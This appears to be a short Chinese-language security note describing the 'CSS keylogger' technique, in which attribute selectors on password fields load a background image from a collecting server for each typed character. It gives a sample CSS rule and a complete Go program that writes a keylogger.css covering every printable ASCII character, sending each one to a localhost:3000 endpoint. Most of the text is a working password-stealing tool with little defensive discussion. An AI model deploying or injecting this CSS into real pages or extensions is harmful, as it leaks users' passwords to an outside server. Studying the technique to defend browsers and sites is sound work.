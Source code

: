 # CSS 键盘记录器

[CSS Keylogger](https://github.com/maxchehab/CSS-Keylogging) 利用 CSS 属性选择器，可以在加载背景图像的前提下从外部服务器请求资源。

这种攻击非常简单。
例如，下面的 css 将选择类型等于 password 的所有输入的值和以。然后它会尝试加载一个来自 http://localhost:3000/a 的图片。

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

使用简单的脚本可以创建一个 css 文件，该文件将为每个 ASCII 字符发送自定义请求

```go
package main

import (
	"fmt"
	"log"
	"net/url"
	"os"
)

func main() {
	fmt.Println("Building keylogger.css")

	output, err := os.Create("./css-keylogger-extension/keylogger.css")
	if err != nil {
		log.Fatal("Cannot create output", err)
	}
	defer output.Close()
	for c := 32; c < 128; c++ {
		value := fmt.Sprintf("%c", c)
		urlValue := url.QueryEscape(value)

		if value == `"` {
			value = `\"`
		} else if value == `}` {
			value = `\\}`
		} else if value == `\` {
			value = `\\`
		}
		fmt.Fprintf(output, `input[type="password"][value$="%v"] { background-image: url("http://localhost:3000/%v"); }`, value, urlValue)
		fmt.Fprintf(output, "\n")
	}
	fmt.Println("Complete.")
}
```